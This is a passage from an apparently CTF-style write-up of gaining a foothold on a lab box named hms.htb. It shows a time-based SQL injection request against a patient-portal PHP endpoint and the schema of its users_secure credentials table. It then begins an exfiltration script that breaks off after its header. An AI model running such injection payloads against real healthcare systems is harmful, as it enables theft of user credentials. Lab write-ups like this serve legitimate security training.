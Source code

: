# Foothold

First of all we search in Google that we can access with this authentication bypass exploit. If we review a bit the code we will see that one of them suffers from a SQL injection vulnerability, so let’s try to trigger the vuln. What we are going to do is proxy our request through Burpsuite, where we can control exactly how we send data.

```bash
GET /portal/add_edit_event_user.php?userid=1+AND+sleep(5) HTTP/1.1
Host: hms.htb:80
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Referer: http://hms.htb:80//portal/account/register.php
Cookie: PHPSESSID=j8r5grj5rift8viiridpgibuak
```

Since we cannot see the output we will use a time based SQL injection. Before scripting we need to know the database that we want to query. Since this is a open source project we can go to github a see what tables are avaible in the database. In github we can see references to a table called `users_secure` .

```bash
DROP TABLE IF EXISTS `users_secure`;
CREATE TABLE `users_secure` (
  `id` bigint(20) NOT NULL,
  `username` varchar(255) DEFAULT NULL,
  `password` varchar(255),
  `last_update_password` datetime DEFAULT NULL,
  `last_update` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
  `password_history1` varchar(255),
  `password_history2` varchar(255),
  `password_history3` varchar(255),
  `password_history4` varchar(255),
  `last_challenge_response` datetime DEFAULT NULL,
  `login_work_area` text,
  `total_login_fail_counter` bigint DEFAULT 0,
  `login_fail_counter` INT(11) DEFAULT '0',
  `last_login_fail` datetime DEFAULT NULL,
  `auto_block_emailed` tinyint DEFAULT 0,
  PRIMARY KEY (`id`),
  UNIQUE KEY `USERNAME_ID` (`id`,`username`)
) ENGINE=InnoDb;
```

We can use the following script to exfiltrate data from the database.

```bash
import signal
import time
import sys
import string
import requests
from pwn import *

'''
Host: hms.htb:80
database-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Referer: http://hms.htb:80//portal/account/register.php
Cookie: PHPSESSID=u3lf92fo13tui0n8l8494tkoiu
'''

```